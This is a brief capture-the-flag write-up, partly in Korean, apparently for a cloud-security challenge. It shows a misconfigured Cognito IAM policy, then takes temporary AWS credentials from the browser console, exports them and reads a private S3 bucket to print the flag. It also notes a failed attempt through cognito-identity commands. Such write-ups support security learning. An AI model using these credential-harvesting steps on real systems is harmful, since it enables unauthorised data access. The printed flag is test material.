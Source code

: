 # Q.

We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

# A.

![](./solution5-img-1.png)

```

> export AWS_ACCESS_KEY_ID=...
> export AWS_SECRET_ACCESS_KEY=...
> export AWS_SESSION_TOKEN=...
> aws s3 ls s3://wiz-privatefiles/
> aws s3 cp s3://wiz-privatefiles/flag1.txt -
{wiz:incognito-is-always-suspicious}

```

# 풀이 설명

- 이미 해당 웹브라우저는 Cognito에 인증해서 임시자격을 얻었기 때문에 [F12] 개발자도구에서 Console을 통해 조회가 된다(`AWS.config.credentials`). 앞에서 확인한 정보를 터미널에 등록하면 S3 접근 권한을 얻게된다.

- 삽질한이야기) Cognito 이미지 주소에 있는 크리덴셜을 쓰려고 했으나 secret값이 없어서 못쓰고, 코드에서 얻은 IdentityPoolId를 가지고 임시자격증명을 얻어서 이 값으로 설정했는데 AccessDinied가 떴다. IdentityId가 다른게 뭔가 문제가 있는 것 같다. 버킷에서 제한된건지 궁금하지만 알 수가 없으니 다음으로 넘어가보자...

```
> aws cognito-identity  get-id --identity-pool-id
> aws cognito-identity get-credentials-for-identity --identity-id
```
